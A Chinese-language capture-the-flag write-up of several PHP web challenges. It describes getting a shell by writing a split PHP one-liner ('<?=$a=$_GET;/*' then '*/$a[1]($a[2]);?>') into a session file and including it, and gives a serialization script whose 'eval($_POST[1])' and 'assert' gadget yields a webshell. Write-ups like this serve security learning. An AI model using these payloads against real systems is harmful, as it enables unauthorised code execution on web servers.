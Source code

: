 只做了web，赛后要了复现环境，`ezinclude`竟然还有`dir.php` ？？
说是不能扫，不知道怎么知道有这个文件的存在，我还是太菜了，等待一个wp。



# 看源码

在url之前加上`view-source:`可以看到flag

# easyphp
php伪协议读文件 + session写入文件 + 包含session文件getshell

首先是伪协议读文件，可以读到`msg.php`中将POST的msg写入session中，有长度限制且会将`php`替换成`?`

这里php标签可以使用`<?= ?>`代替掉`<?php ?> `，长度限制可以使用`/**/`注释 + 多次写入绕过

这里我分两次写入，
第一次：`<?=$a=$_GET;/*`
第二次：`*/$a[1]($a[2]);?>`

之后再包含`/tmp/sess_{session值}`即可。

![20200422124224](https://blog-1300147235.cos.ap-chengdu.myqcloud.com/20200422124224.png)

最后在根目录下找到flag文件

![20200422124351](https://blog-1300147235.cos.ap-chengdu.myqcloud.com/20200422124351.png)

# ReadlezPHP

进入题目，f12可以找到`time.php?source`，进入即可获得源码

之后是简单的反序列化
```php
<?php
class HelloPhp
{
    public $a = 'eval($_POST[1]);';
    public $b = 'assert';
}
$c = new HelloPhp;
echo serialize($c);
?>
```
得到序列化的字符串
之后传入data即可getshell
![20200422125745](https://blog-1300147235.cos.ap-chengdu.myqcloud.com/20200422125745.png)

